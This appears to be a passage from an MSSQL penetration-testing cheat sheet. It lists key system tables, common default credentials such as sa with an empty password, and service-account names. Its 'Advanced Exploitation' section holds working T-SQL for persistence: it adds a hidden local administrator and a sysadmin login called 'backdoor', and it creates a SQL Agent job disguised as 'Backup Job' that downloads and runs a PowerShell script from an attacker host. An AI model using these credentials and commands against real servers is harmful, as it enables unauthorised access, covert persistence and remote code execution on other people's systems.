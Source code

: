 ### Important System Tables
```
sys.databases           - Database listing
sys.tables             - Table information
sys.server_principals  - Server logins
sys.database_principals - Database users
sys.configurations    - Server configuration
sys.servers           - Linked servers
```

---

## Common Default Credentials

### MSSQL Defaults
```
sa:(empty)
sa:sa
sa:password
sa:Password123
sa:admin
administrator:admin
MSSQL:MSSQL
```

### Service Account Patterns
```
DOMAIN\sql_service
DOMAIN\mssql_service
NT SERVICE\MSSQLSERVER
NT AUTHORITY\SYSTEM
```

---

## Advanced Exploitation

### Persistence Techniques
```sql
-- Create backdoor login
EXEC xp_cmdshell 'net user backdoor P@ssw0rd123! /add';
EXEC xp_cmdshell 'net localgroup administrators backdoor /add';
CREATE LOGIN [backdoor] WITH PASSWORD = 'P@ssw0rd123!';
ALTER SERVER ROLE sysadmin ADD MEMBER [backdoor];

-- SQL Server Agent job persistence
USE msdb;
EXEC dbo.sp_add_job 
    @job_name = N'Backup Job';
EXEC dbo.sp_add_jobstep
    @job_name = N'Backup Job',
    @step_name = N'Backup Step',
    @command = N'xp_cmdshell ''powershell -c "IEX (New-Object Net.WebClient).DownloadString(''''http://attacker/shell.ps1'''')"''';
```
